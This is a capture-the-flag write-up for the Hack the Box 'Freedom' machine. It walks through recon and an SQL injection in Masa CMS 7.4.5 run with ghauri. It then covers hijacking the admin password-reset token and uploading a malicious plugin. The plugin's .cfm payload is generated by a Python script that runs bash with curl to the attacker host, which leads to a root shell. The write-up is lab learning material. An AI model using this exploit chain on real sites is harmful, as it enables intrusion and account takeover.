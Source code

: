 # Freedom

Freedom is the second of the three full pwn challenges that we solved with *GCC* during the *Hack the Box University CTF 2024: Binary Badlands*

A full pwn challenge is composed of two flags that we have to find in order to complete it, the first one being the user flag and the second one being the root flag. We are given the ip address of a machine / box and we have to first get a RCE on the machine in order to have the user flag, and then privesc in order to get the root flag. 

## Reconnaissance 

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 16:01 CET
Nmap scan report for freedom.htb (10.129.242.128)
Host is up (0.044s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

Since this machine appeared to be a windows host and more specifically a DC and we don’t have any credentials on the AD let’s try to see if we can grab anything using default accounts like Guest or anonymous :
```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "" -p "" --shares
SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [+] freedom.htb\: 
SMB         10.129.242.128  445    DC1              [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```
eddymalou@parrot:~/Documents/CTF/HTB-UNIV$ nxc smb 10.129.242.128 -u "guest" -p "" --shares

SMB         10.129.242.128  445    DC1              [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC1) (domain:freedom.htb) (signing:True) (SMBv1:False)
SMB         10.129.242.128  445    DC1              [-] freedom.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Unfortunately this wasn’t very successful, same for enum4linux.

In our initial nmap scan we could see that the port 80 was open so let’s check it out. We realised it was cms running which was called “Masa CMS” and found several endpoints corresponding to an API : `http://freedom.htb/index.cfm/_api/json/v1/default/`

![Masa CMS API](/HTB-UNIVERSITY-2024/FullPwn/images/api_masa.png)

The website was essentially a blog with a search functionality that allowed us to filter the articles being posted there. We tried several payloads in order to get an xss or even a ssti but nothing successful.  

Checking out the robots.txt file we found this : 

```
User-agent: *
Crawl-Delay: 5
Disallow: /admin/
Disallow: /core/
Disallow: /modules/
Disallow: /config/
Disallow: /themes/
Disallow: /plugins/
```

And visiting the /admin endpoint redirected us to the login page of the CMS : `http://freedom.htb/admin/?muraAction=clogin.main`

![Masa CMS Login](/HTB-UNIVERSITY-2024/FullPwn/images/login_masa_cms.png)

No default or weak credentials turned out to work unfortunately so let’s dig deeper. 
Playing around with several requests and looking at the answers on burp we managed to pinpoint the exact version of the CMS : Masa CMS 7.4.5

  ![Masa CMS version](/HTB-UNIVERSITY-2024/FullPwn/images/masa_cms_version.png)
  
After a bit of research we found out that this version of Masa CMS was vulnerable to an SQLi : [https://projectdiscovery.io/blog/hacking-apple-with-sql-injection](https://projectdiscovery.io/blog/hacking-apple-with-sql-injection)

## User flag/Root flag

Let's verify if our instance is indeed vulnerable : 

`http://freedom.htb/index.cfm//_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C'&previewID=x`

![Masa CMS version](/HTB-UNIVERSITY-2024/FullPwn/images/masa_sql_error.png)

After searching for masa cms sqli we found this CVE with a POC:
  
[https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS](https://github.com/Stuub/CVE-2024-32640-SQLI-MuraCMS)
  
After debugging and modifying a bit the script since it did not work for us on the first time we managed to use this payload:  
  
`ghauri -u "http://freedom.htb/index.cfm/_api/json/v1/default/?method=processAsyncObject&object=displayregion&contenthistid=x%5C&previewID=x" -p contenthistid --dbs --current-db`

```
available databases [5]:
[] sys
[] performance_schema
[] information_schema
[] dbMasaCMS
[*] mysql
```

We dumped the DB and found an interesting table containing several users and their info -> including bcrypt password hashes but we were unable to crack them.

We then decided to change our approach by resetting the administrator password using the “forgot password button” and dumping the reset token in the db. 

![Reset admin pwd](/HTB-UNIVERSITY-2024/FullPwn/images/rest_admin_pwd.png)

At first we were unsuccessful at this and since the CMS was open source our idea was to reverse engineer the method responsible to generate forgotten password tokens : 

```
<cfset returnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#"> 

<cfelse>
<cfsetreturnURL="#protocol##urlBase##site.getContentRenderer().getURLStem(site.getSiteID(),returnID)#?userID=#arguments.args.userID#">
```

Using infos found in the dumped db we managed to get close to a valid reset link : 

`http://freedom.htb/index.cfm/75296552-E0A8-4539-B1A46C806D767072/22FC551F-FABE-EA01-C6EDD0885DDC1682/?userID=75296552-E0A8-4539-B1A46C806D767072`

But it was flagged as `invalid or incorrect reset link`. Around the same time, a 
teammate managed to dump the link directly in the db using sqlmap : 

`http://freedom.htb/?display=editProfile&returnID=E7EAB9CD-78D7-4EBB-A3FA718298F0CF15&returnUserID=75296552-E0A8-4539-B1A46C806D767072`

![Token db](/HTB-UNIVERSITY-2024/FullPwn/images/token_db.png)

We can then reset the admin password to "admin" for exemple and login on the CMS.
After looking around the administration page we find an interesting feature : 
 
 ![Upload plugin](/HTB-UNIVERSITY-2024/FullPwn/images/upload_plugin.png)
While searching for plugin examples we stumbled accross this repository : https://github.com/MasaCMS/MasaAuthenticator

After spending quite some time analysing its source code and testing several payloads / uploading them on the CMS, we managed to get a remote code execution by modifying the following file : `config.xml.cfm`

Initially we used this tool [https://github.com/Impenetrable/ReverseFusion/tree/master](https://github.com/Impenetrable/ReverseFusion/tree/master "https://github.com/Impenetrable/ReverseFusion/tree/master")
to generate a reverse shell payload embedded into the .cfm file since we thought the target machine was a windows host (the DC). 

However while testing out our RCE payload, we got an error indicating it couldn't find cmd.exe and showed us clear sign of a linux host (Absolute path like "/var/www/html")

Let's modify the script to get a working RCE : 

```
import sys 
import base64

ip = input("Enter attacking IP address: ")
port = int(input("Enter attacking port number: "))
filename = input("Enter output file name: ")

payload = "curl http://10.10.14.182:4444/toto.txt" 
payload = f"arguments=\"-c {payload}\"" 

with open( filename+".cfm", "w+") as f: 
	f.write("<cfexecute name=\"/bin/bash\"\r") 
	f.write(payload+"\r") f.write("variable=\"data\"\r") 
	f.write("timeout=\"10\" />\r") 
	f.write("<cfdump var=\"#data#\">")

```

We zipped the whole plugin again with our malicious : `config.xml.cfm`

 ![Payload](/HTB-UNIVERSITY-2024/FullPwn/images/malicious_payload.png)
 
And uploaded it onto the CMS : 

![Zip exploit](/HTB-UNIVERSITY-2024/FullPwn/images/exploitzip.png)

Now to trigger our payload we just clicked on "Deploy" and we got our shell : 

![Reverse shell](/images/reverse_shell.png)

We get a shell on the wsl running on the windows host, but the whole C drive is mounted and we are root! A simple grep and we got both the user and the root flag at the same time! Our solve was completely unintended as the actual solve was mostly AD related (kerberoasting / asrep roasting / kerbrute..).
